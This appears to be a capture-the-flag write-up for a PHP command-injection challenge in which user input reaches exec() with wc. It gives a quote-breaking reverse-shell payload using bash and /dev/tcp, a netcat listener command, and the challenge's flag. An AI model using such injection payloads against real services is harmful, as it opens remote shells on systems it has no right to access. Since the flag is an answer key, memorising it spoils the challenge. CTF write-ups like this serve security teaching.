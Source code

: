 # Body Count

Author: [AJ1479](https://github.com/AJ1479)

## Description

This challenge is based on PHP code injection to set up a reverse shell. 

## Requirements

- Docker: [Dockerfile](./Dockerfile)

## Sources

```
Here's a character count service for you!
```

## Exploit

This challenge deals with PHP code injection, you need to enter some code which will help you create a reverse shell.
<br />

The characters are counted using the `wc` command in the `exec()` function in the PHP. This is where you'll have to enter code to open a reverse shell. Something like `'; bash -c "bash -i >& /dev/tcp/127.0.0.1/8000 0>&1"; '` with your IP address (instead of 127.0.0.1) and start a netcat listener (`nc -l -p 8000`) on your server. Then, navigate to the `/etc/passwd` to get the flag.
<br />

The flag is:

```
csictf{1nj3ct10n_15_p41nfu1}
```